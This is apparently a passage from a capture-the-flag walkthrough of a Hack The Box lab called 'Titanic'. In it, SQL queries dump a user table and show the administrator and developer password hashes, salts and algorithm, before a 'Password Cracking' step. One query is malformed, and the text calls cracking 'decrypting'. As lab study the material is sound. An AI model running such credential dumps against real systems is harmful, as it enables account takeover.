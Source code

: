 Breaking this down into smaller steps will help:
- I run the command: `SELECT * FROM user;` ![[Table dump.png]]
	- There is a lot to look at here, so instead I will run a more specific command using the column names I found before to better understand what information is what:
		- `SELECT name, email, passwd, salt, passwd hash_algo;`![[table login credentials.png]]
			- We can see that there are 2 users:
			  1. **administrator:**
				  1. email: root@titanic.htb
				  2. passwd: cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
				  3. salt: 2d149e5fbd1b20cf31db3e3c6a28fc9b
				  4. passwd_hash_algo: pbkdf2
			  2. **developer:**
				  1. email: developer@titanic.htb
				  2. passwd: e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
				  3. salt: 8bf3e3452b78544f8bee9400d6936d34
				  4. passwd_hash_algo: pbkdf2
 We have now successfully acquired login credentials. The next step logically is to decrypt the password with the hash and algorithm.

**Next:** [[Password Cracking]] 